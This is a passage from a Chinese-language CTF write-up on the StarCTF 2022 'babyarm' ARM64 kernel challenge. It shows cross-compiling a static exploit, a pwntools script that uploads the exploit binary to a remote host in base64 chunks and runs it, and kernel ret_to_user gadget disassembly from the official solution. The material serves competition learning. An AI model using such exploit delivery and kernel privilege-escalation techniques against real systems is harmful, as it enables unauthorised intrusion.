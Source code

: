 ```
➜  ../../aarch64-linux-musl-cross/bin/aarch64-linux-musl-gcc ./exp.c -static -o exp
➜  ../../aarch64-linux-musl-cross/bin/aarch64-linux-musl-strip ./exp
```

之前的网上抄的一个python2的上传脚本，有空再补一个python3的...

```python
from pwn import *
context(log_level='debug')

io = remote("124.70.158.154",60001)

def exec_cmd(cmd):
    io.sendline(cmd)
    io.recvuntil("$ ")

def upload():
    p = log.progress("Upload")
    with open("./exp", "rb") as f:
        data = f.read()
    encoded = base64.b64encode(data)
    io.recvuntil("$ ")

    for i in range(0, len(encoded), 600):
        p.status("%d / %d" % (i, len(encoded)))
        exec_cmd("echo \"%s\" >> /home/pwn/benc" % (encoded[i:i+600]))

    exec_cmd("cat /home/pwn/benc | base64 -d > /home/pwn/bout")
    exec_cmd("chmod +x /home/pwn/bout")
    exec_cmd("/home/pwn/bout")
    
upload()
io.interactive()
```

远程环境已经没了，所以补一张比赛时打出来的截图：

![image](https://xuanxuanblingbling.github.io/assets/pic/starctf/remote.jpeg)

### 官方解法

- [sixstars starctf2022: pwn-babyarm](https://github.com/sixstars/starctf2022/tree/main/pwn-babyarm)

官方解法的精髓是：

```c
As for how to switch back to user mode, I use gadgets of ret_to_user below in arch/arm64/kernel/entry.S:406

=> 0xffff800008012024 <ret_to_user+112>:   msr     elr_el1, x21
   0xffff800008012028 <ret_to_user+116>:   msr     spsr_el1, x22
   0xffff80000801202c <ret_to_user+120>:   ldp     x0, x1, [sp]
   0xffff800008012030 <ret_to_user+124>:   ldp     x2, x3, [sp, #16]
   0xffff800008012034 <ret_to_user+128>:   ldp     x4, x5, [sp, #32]
   0xffff800008012038 <ret_to_user+132>:   ldp     x6, x7, [sp, #48]
   0xffff80000801203c <ret_to_user+136>:   ldp     x8, x9, [sp, #64]
   0xffff800008012040 <ret_to_user+140>:   ldp     x10, x11, [sp, #80]
   0xffff800008012044 <ret_to_user+144>:   ldp     x12, x13, [sp, #96]
   0xffff800008012048 <ret_to_user+148>:   ldp     x14, x15, [sp, #112]
   0xffff80000801204c <ret_to_user+152>:   ldp     x16, x17, [sp, #128]
   0xffff800008012050 <ret_to_user+156>:   ldp     x18, x19, [sp, #144]
   0xffff800008012054 <ret_to_user+160>:   ldp     x20, x21, [sp, #160]
   0xffff800008012058 <ret_to_user+164>:   ldp     x22, x23, [sp, #176]
   0xffff80000801205c <ret_to_user+168>:   ldp     x24, x25, [sp, #192]
   0xffff800008012060 <ret_to_user+172>:   ldp     x26, x27, [sp, #208]
```